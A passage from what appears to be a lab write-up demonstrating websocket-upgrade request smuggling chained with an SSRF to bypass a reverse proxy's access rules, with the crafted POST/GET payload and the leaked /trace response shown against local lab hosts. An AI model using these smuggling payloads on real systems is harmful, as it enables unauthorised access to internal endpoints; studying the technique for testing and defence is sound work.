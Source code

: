     x=1

And we should get a 101 response from our Python server:

    HTTP/1.1 101 
    Server: nginx/1.17.6
    Date: Thu, 06 Jun 2024 13:09:48 GMT
    Connection: upgrade
    X-Application-Context: application:8081

Double-check Python server console:

    172.21.0.2 - - [06/Jun/2024 15:14:33] "GET / HTTP/1.1" 101 -

Now we are ready to set up the final payload:

1. We modify the POST request to require a websocket update. We exploit the SSRF vulnerability to control the response and trick the proxy to upgrade the communication.
2. The proxy wont check the chained HTTP request, since it believes that a websocket communication is in place
3. We set in the body of the POST our smuggled request to bypass proxy ACL rules
Follows the finale request (remember to disable update content-length and to insert double carriage return to the end of the GET smuggled request):

        POST /health-check?url=http%3A%2F%2F172.21.0.1 HTTP/1.1
        Host: localhost:8002
        Accept: */*
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Sec-WebSocket-Version: 13
        Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
        Pragma: no-cache
        Cache-Control: no-cache
        Upgrade: websocket
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 0
        
        GET /trace HTTP/1.1
        Host: localhost:3001

You should get two response, the second with the trace information:


        HTTP/1.1 101 
        ...
        HTTP/1.1 200 
        ....
        Date: Thu, 06 Jun 2024 14:40:33 GMT

        2000
        [{"timestamp":1717684833282,"info":{"method":"POST","path":"/health-check","headers":{"request":{"upgrade":"websocket","host":"localhost:8002","sec-websocket-key":"dGhlIHNhbXBsZSBub25jZQ==","sec-websocket-version":"13","content-length":"0","accept":"*/*","accept-language":"en-US,en;q=0.5","accept-encoding":"gzip, deflate, br","pragma":"no-cache","cache-control":"no-cache","content-type":"application/x-www-form-urlencoded"},
        ...
